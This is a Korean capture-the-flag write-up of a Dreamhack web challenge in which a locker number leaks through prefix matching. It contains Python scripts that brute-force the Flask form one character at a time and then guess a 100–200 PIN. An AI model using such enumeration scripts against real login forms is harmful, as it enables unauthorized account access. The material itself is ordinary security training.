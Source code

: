 ```yaml
---
layout: single
title: "[wargame.kr] random-test write-up"
date: 2024-02-04 21:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## 문제 설명

새 학기를 맞아 드림이에게 사물함이 배정되었습니다. 하지만 기억력이 안 좋은 드림이는 사물함 번호와 자물쇠 비밀번호를 모두 잊어버리고 말았어요... 드림이를 위해 사물함 번호와 자물쇠 비밀번호를 알아내 주세요!
사물함 번호는 알파벳 소문자 혹은 숫자를 포함하는 4자리 랜덤 문자열이고, 비밀번호는 100 이상 200 이하의 랜덤 정수입니다. 두 값을 맞게 입력하면 플래그가 출력됩니다. 플래그는 `FLAG` 변수에 있습니다.  

플래그 형식은 DH{...} 입니다.

<br>

## 풀이

문제에 접속하면 다음과 같이 사물함 번호와 자물쇠 비밀번호를 입력하는 폼이 존재한다.

![image-20240204210401207](/images/2024-02-04-random-test/image-20240204210401207.png)

<br>

### 소스 코드

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import random

app = Flask(__name__)

try:
    FLAG = open("./flag.txt", "r").read()       # flag is here!
except:
    FLAG = "[**FLAG**]"


rand_str = ""
alphanumeric = string.ascii_lowercase + string.digits
for i in range(4):
    rand_str += str(random.choice(alphanumeric))

rand_num = random.randint(100, 200)


@app.route("/", methods = ["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        locker_num = request.form.get("locker_num", "")
        password = request.form.get("password", "")

        if locker_num != "" and rand_str[0:len(locker_num)] == locker_num:
            if locker_num == rand_str and password == str(rand_num):
                return render_template("index.html", result = "FLAG:" + FLAG)
            return render_template("index.html", result = "Good")
        else: 
            return render_template("index.html", result = "Wrong!")
            
            
app.run(host="0.0.0.0", port=8000)
```

<br>

소스 코드를 분석하기 전에 문제 설명을 먼저 보면 사물함 번호는 알파벳 소문자 혹은 숫자를 포함하는 4자리 랜덤 문자열이고, 비밀번호는 100이상 200이하의 랜덤 정수이라고 한다. 

<br>
소스 코드를 분석해보면  `alphanumeric` 변수에 `string.ascii_lowercase` 함수를 사용해 알파벳 소문자와 `string.digits` 함수를 사용해 `0~9`의 숫자를 저장하고 있다. 이는 4번 반복해 4자리를 만들고 `random.choice` 함수를 사용하면서 무작위로 알파벳 소문자와 숫자를 뽑아온다. 아래의 `rand_num` 변수에는 `random.randit(100, 200)` 을 사용해 100이상 200이하의 랜덤한 정수를 반환한다. 

```python
rand_str = ""
alphanumeric = string.ascii_lowercase + string.digits
for i in range(4):
    rand_str += str(random.choice(alphanumeric))

rand_num = random.randint(100, 200)
```

<br>

### Flag 조건

일단 위의 소스 코드는 이미 문제 설명에서 설명해준 내용이다. Flag 조건의 소스 코드를 확인해보면 `locker_num`과 `password`의 파라미터 값을 받아와 저장한다. `locker_num` 이 빈 문자열이 아니고, `rand_str` 을 인덱스 0부터 `locker_num`의 길이까지 슬라이싱한 값이 `locker_num` 변수 값과 같아야 한다. 또한 `locker_num`과 `rand_str`의 값이 같고 `password`와 `rand_num`값이 같으면 flag를 출력해준다.

```python
@app.route("/", methods = ["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        locker_num = request.form.get("locker_num", "")
        password = request.form.get("password", "")

        if locker_num != "" and rand_str[0:len(locker_num)] == locker_num:
            if locker_num == rand_str and password == str(rand_num):
                return render_template("index.html", result = "FLAG:" + FLAG)
            return render_template("index.html", result = "Good")
        else: 
            return render_template("index.html", result = "Wrong!")
            
```

<br>

이건 무작위 대입 공격을 해야 하는 것인가..? 일단 먼저 아래의 조건이 부합하면 Good이라는 문자열을 출력해준다. 이를 토대로 rand_str 먼저 공략해보자. 위에서 말했던 것처럼 `rand_str`은 알파벳 소문자 혹은 숫자를 포함하는 4자리 랜덤 문자열이다. 

```python
if locker_num != "" and rand_str[0:len(locker_num)] == locker_num:
```

<br>

4자리를 무작위로 대입해서 맞춰보는 아래 코드를 작성했지만 답도 나오지 않는다... 

```python
import random
import string
import requests

url = "http://host3.dreamhack.games:12285"
for i in range(0,999999):
    print(f"{i}번째 시도 중입니다.")
    rand_str=""
    alphanumeric = string.ascii_lowercase + string.digits
    for i in range(4):
        rand_str += str(random.choice(alphanumeric))
    # print(rand_str)
    r = requests.post(url, data={'locker_num': rand_str})
    if 'Good' in r.text:
        print(f"rand_str 값은 {rand_str} 입니다.")
        break
```

<br>

다시 생각해보니 여기에 힌트가 있다. len 함수를 사용하니 첫 번째 자리 숫자부터 차례대로 맞춰보자.

```python
if locker_num != "" and rand_str[0:len(locker_num)] == locker_num:
```

<br>
4번 반복하는 구문을 주석처리하면 첫 번째 자리부터 차례대로 얻을 수 있다. 출력된 값을 `rand_str` 변수에 집어넣어주면 된다.

```python
import random
import string
import requests

url = "http://host3.dreamhack.games:12285"
for i in range(0,999999):
    print(f"{i}번째 시도 중입니다.")
    rand_str=""
    alphanumeric = string.ascii_lowercase + string.digits
    # for i in range(4):
    rand_str += str(random.choice(alphanumeric))
    # print(rand_str)
    r = requests.post(url, data={'locker_num': rand_str})
    if 'Good' in r.text:
        print(f"rand_str 값은 {rand_str} 입니다.")
        break
```

<br>

실행 결과 다음과 같이 rand_str을 알아냈고, 이를 사물함 번호에 웹에서 확인해보면 Good 문자열을 확인할 수 있다.

![image-20240205033716338](/images/2024-02-04-random-test/image-20240205033716338.png)

![image-20240205033816935](/images/2024-02-04-random-test/image-20240205033816935.png)

<br>

이제 자물쇠 비밀번호만 얻으면 된다. 이는 간단하게 반복문으로 100부터 200까지 돌리면 되겠다.

```python
import random
import string
import requests

url = "http://host3.dreamhack.games:12285"
for i in range(100, 201):
    print(f"{i}번째 시도 중입니다.")
    rand_str="vg2a"
    alphanumeric = string.digits
    # for i in range(4):
    password = int(i)
    # print(rand_str)
    r = requests.post(url, data={'locker_num':'vg2a', 'password':password})
    if 'DH' in r.text:
        print(r.text())
        break
```



<br>

약간 코드를 대충 수정해서 아래처럼 보인다... 190번째에 오류가 발생했으므로 자물쇠 비밀번호는 190이다!

![image-20240205034301546](/images/2024-02-04-random-test/image-20240205034301546.png)


<br>

다음과 같이 Flag를 얻을 수 있다.

![image-20240205034359498](/images/2024-02-04-random-test/image-20240205034359498.png)